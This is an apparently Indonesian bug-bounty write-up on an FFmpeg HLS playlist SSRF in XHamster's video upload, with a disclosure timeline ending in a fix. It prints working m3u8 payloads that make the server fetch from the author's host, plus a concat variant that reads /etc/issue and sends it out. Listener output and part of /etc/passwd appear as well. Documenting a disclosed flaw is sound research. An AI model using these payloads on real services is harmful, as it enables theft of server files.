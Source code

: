 ```yaml
---
layout: post
title: XHamster SSRF Vulnerability
date: 2017-08-18 11:55:10 AM
author: xhellc0de
category: pentesting
---
```

![Image of XHamster](https://raw.githubusercontent.com/noobsec/noobsec.github.io/master/images/xh-pwn.jpg)

XHamster merupakan situs streaming video dewasa yang cukup besar. Konten-konten **menarik** pada situs tersebut merupakan kontribusi dari para member XHamster, dengan kata lain, para member *meng-upload* video mereka ke situs tersebut. Bagi para *Bounty Hunter*, fitur *upload* terlihat seperti tambang emas yang siap untuk digali :) Maka dari itu, kami pun tertarik untuk mencoba mencari celah keamanan pada situs XHamster.

Seperti pada situs streaming lainnya, setiap video yang *diupload*, kemungkinan besar *di-encode* terlebih dahulu sebelum kemudian disajikan ke pengunjung. Kebanyakan situs video streaming menggunakan **FFMPEG** untuk *encoding* video pada situs mereka. Maka kami mencoba apakah benar XHamster menggunakan FFMPEG, dan apakah terdapat celah disana.

Pertama kami melakukan pengetesan sederhana dengan mengupload sebuah file video yang telah disisipi *payload* berikut:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
http://noobsec.org:1337/tes_ssrf
#EXT-X-ENDLIST
```

Setelah itu, *listen* di *server* pada port 1337, dan benar kami muncul *response* dari server XHamster:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /tes_ssrf HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Melihat dari *response* tersebut, maka kami berasumsi bahwa FFMPEG yang digunakan kemungkinan memiliki celah. Maka kami melanjutkan penetrasi lebih dalam untuk mencoba melihat *file* yang ada di server.

Kami sedikit memodifikasi file video yang akan diupload dan membuat 1 file baru dengan nama **header.m3u8**, dengan isi:

ssrf.avi
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
concat:http://noobsec.org:1337/header.m3u8|file:///etc/issue
#EXT-X-ENDLIST
```

header.m3u8	
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://noobsec.org:1337/ssrf_result?
```

Setelah diupload, dan kembali melakukan listen di server, maka muncul *response* seperti berikut:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /ssrf_result?Debian+GNU/Linux+8+\n+\l HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Dapat dilihat bahwa isi dari *file* /etc/issue adalah: **Debian GNU/Linux 8 \n \l**

Untuk bukti yang lebih kuat, maka kami mencoba untuk melihat file lain yang ada di server XHamster. Dengan sedikit modifikasi pada payload, kami berhasil mengambil isi file /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[ redacted ]
messagebus:x:104:107::/var/run/dbus:/bin/false
www:x:999:999::/home/www:/bin/sh
xhamster:x:998:998::/home/xhamster:/bin/sh
[ redacted ]
```

Kami mencoba untuk mengambil isi file-file lain seperti 000-default.conf dan file default lainnya, namun sepertinya XHamster tidak menggunakan default settings, dan kami kesulitan untuk menebak path dari file yang ada pada server mereka.

Untuk itu, kami rasa cukup sejauh ini penetrasi yang dilakukan dan kami langsung menghubungi XHamster terkait isu tersebut.

Timeline:
```
15 Agustus 2017 14:00 : Celah keamanan ditemukan
15 Agustus 2017 15:30 : Celah keamanan dilaporkan ke XHamster
15 Agustus 2017 16:15 : XHamster mengkonfirmasi bahwa celah keamanan tersebut valid
15 Agustus 2017 16:53 : XHamster menyatakan sedang melakukan perbaikan pada celah tersebut
15 Agustus 2017 21:40 : XHamster memberikan reward atas celah yang ditemukan
17 Agustus 2017 10:59 : Celah telah diperbaiki
```
Referensi: https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf
